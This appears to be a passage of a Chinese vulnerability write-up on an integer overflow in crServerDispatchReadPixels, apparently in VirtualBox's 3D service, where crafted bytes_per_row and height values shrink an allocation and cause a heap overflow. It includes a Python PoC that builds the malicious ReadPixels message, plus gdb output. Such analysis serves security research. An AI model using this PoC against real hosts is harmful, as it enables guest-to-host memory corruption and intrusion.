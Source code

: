 函数会使用 bytes\_per\_row 和 height 计算 msg\_len

```c
msg_len = sizeof(*rp) + (uint32_t)bytes_per_row * height;
```

CRMessageReadPixels 结构体大小为 0x38 字节，bytes\_per\_row 和 height 的最大取值均为 0x1fffffff，当 bytes\_per\_row = 0x1ffffffd, height = 8 时，**msg\_len 为 0x20**。

然后后面 crMemcpy 时就会**往 rp + 0x30 的位置写入 8 字节，而 rp 的实际内存大小只有 0x20 字节**.

对应 poc 如下

```c
def make_readpixels_msg(uiId, uiSize):
    msg = (
        pack("<III", CR_MESSAGE_OPCODES, 0x41414141, 1) #type, conn_id, numOpcodes
        + "\x00\x00\x00" +chr(CR_READPIXELS_OPCODE) #opcode
        + pack("<IIIIII", 0, 0, 0, 8, 0x35, 0) #x,y,w,h, format, type
        + pack("<IIIIIIII", 0,0,0,0,0x1ffffffd, 0, uiId, uiSize) # stride, align, skipR, skipPix, byteperrow, rowlen
        )
    return msg
```

主要就是控制 `bytes_per_row = 0x1ffffffd, height = 8`​ ，且 pixels 为 `uiId, uiSize`​.

分配 rp 时的寄存器状态（size 为 0x20）

```plaintext
(gdb) 
59              rp = (CRMessageReadPixels *) crAlloc( msg_len );
rax            0x20                32
rbx            0x1ffffffd          536870909
rcx            0x7fd2b212b320      140542907429664
rdx            0x0                 0
rsi            0x88eb              35051
rdi            0x20                32
rbp            0x7fd26a05fb80      0x7fd26a05fb80
rsp            0x7fd26a05fb20      0x7fd26a05fb20
r8             0x35                53
r9             0x0                 0
r10            0x1                 1
r11            0x7fd24c213f40      140541197107008
r12            0x8                 8
r13            0x0                 0
r14            0x35                53
r15            0x7fd24c2f4160      140541198025056
rip            0x7fd269cfd381      0x7fd269cfd381 <crServerDispatchReadPixels+257>
eflags         0x213               [ CF AF IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
k0             0x0                 0
k1             0x0                 0
k2             0x0                 0
k3             0x0                 0
k4             0x0                 0
k5             0x0                 0
k6             0x0                 0
k7             0x0                 0
=> 0x7fd269cfd381 <crServerDispatchReadPixels+257>:     call   0x7fd269cd48b0 <crAlloc@plt>
   0x7fd269cfd386 <crServerDispatchReadPixels+262>:     test   rax,rax
   0x7fd269cfd389 <crServerDispatchReadPixels+265>:     je     0x7fd269cfd474 <crServerDispatchReadPixels+500>
```